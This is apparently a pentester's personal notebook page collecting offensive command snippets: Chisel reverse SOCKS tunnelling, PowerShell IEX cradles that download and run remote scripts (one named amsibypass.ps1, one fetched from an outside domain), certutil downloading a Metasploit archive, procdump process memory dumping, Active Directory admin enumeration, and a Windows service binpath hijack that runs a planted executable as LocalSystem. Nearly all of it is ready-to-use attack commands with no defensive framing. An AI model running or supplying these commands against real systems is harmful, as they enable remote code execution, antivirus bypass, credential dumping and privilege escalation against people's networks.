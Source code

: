 ```yaml
---
permalink: /notebook/
title: "Notebook"
---
```


A page to collate the random snippits of information/commands/workflows I have collated over the years.


## Chisel SocksProxy

Attacker (Kali)
```bash
 chisel server -p 8080 -reverse 
 ```

Client
```bash
 chisel client 10.10.14.6:8080 R:8001:127.0.0.1:1337 
 chisel server -p 1337 —socks5 
 ```

Attacker (Kali)
```bash
 chisel client 127.0.0.1:8001 socks 
 ```


## Powershell
IEX
```powershell
powershell -command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.104:8080/amsibypass.ps1’);"
```

```powershell
.(Alias IE*)((New-Object Net.WebClient).DownloadString('http://secure.oauth.live/update.txt'))
```

RunAs
```powershell
powershell.exe   $username = XYZ; $password = PASS; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-Command -ComputerName localhost -ScriptBlock {whoami} -Credential $credential
```

## LOLBins
certutil
``` 
certutil.exe -urlcache -split -f http://10.10.14.8:8080/msf.zip C:/users/luke/documents/msf/zip
```

Prodump
```
\procdump.exe -ma -accepteula pid outfile.dmp
```

## AD Stuff
Active DA Accounts
```powershell
Get-ADGroupMember -identity "Domain Admins" -Server 10.20.253.124| foreach{ get-aduser $_ -Properties * | select SamAccountName, passwordlastset, passwordneverexpires, Enabled} | Where-Object {$_.Enabled -eq $true} | Format-Table SamAccountName -Autosize
```

Active Users
```powershell
Get-ADGroupMember -identity "Domain Users" -Server 192.168.16.240 | foreach{ get-aduser $_ -Properties * | select SamAccountName, passwordlastset, passwordneverexpires, Enabled} | Where-Object {$_.Enabled -eq $true} | Format-Table SamAccountName -Autosize
```

## Service Hijack
```bash
sc config servicename binpath= "cmd.exe /K C:\Inetpub\wwwroot\l.exe"
sc config servicename obj= ".\LocalSystem" password= ""
sc config servicename start= auto
sc qc servicename
```